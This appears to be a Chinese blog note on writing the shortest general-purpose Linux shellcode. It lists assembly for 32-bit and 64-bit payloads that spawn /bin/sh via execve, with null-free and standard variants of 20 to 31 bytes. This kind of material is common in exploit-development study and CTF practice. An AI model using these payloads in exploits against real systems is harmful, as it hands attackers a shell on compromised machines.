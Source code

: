 ```yaml
---
layout:     post
title:      "Linux ShellCode"
subtitle:   "最短的通用shellcode编写"
date:       2018-11-16 12:00:00
author:     "Chris"
catalog: true
tags:
    - 笔记
    - ShellCode
    - Linux
 
---
```


在寄存器都是非理想值情况下(shellcode可根据环境具体触发时寄存器的值做长度调整)，我本着最优通用的原则，整理了Linux下32位和64位最短通用shellcode的编写

## 32位

有"\x00"最短 20 byte

	shellcode= '''
	xor ecx,ecx
	mul ecx
	mov al,0xb
	push 0x68732f   
	push 0x6e69622f   
	mov ebx,esp
	int 0x80
	'''
    shellcode=asm(shellcode)

无"\x00"最短 21 byte


	xor ecx,ecx
	mul ecx
	push eax
	mov al,0xb
	push 0x68732f2f   
	push 0x6e69622f   
	mov ebx,esp
	int 0x80


标准shellcode 23 byte

	xor ecx,ecx
	xor edx,edx
	push edx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx,esp
	xor eax,eax
	mov al,0xB
	int 0x80

## 64位


最短有"\x00" 22 byte

	xor rsi,rsi
	mul esi
	mov rbx,0x68732f6e69622f
	push rbx
	push rsp
	pop rdi
	mov al, 59
	syscall

最短无"\x00" 23 byte

	xor rsi,rsi
	mul esi
	push rax
	mov rbx,0x68732f2f6e69622f
	push rbx
	push rsp
	pop rdi
	mov al, 59
	syscall

标准shellcode 31 byte

	xor    rdi,rdi
	xor    rsi,rsi
	xor    rdx,rdx
	xor    rax,rax
	push   rax
	mov rbx,0x68732f2f6e69622f
	push   rbx
	mov    rdi,rsp
	mov    al,0x3b
	syscall 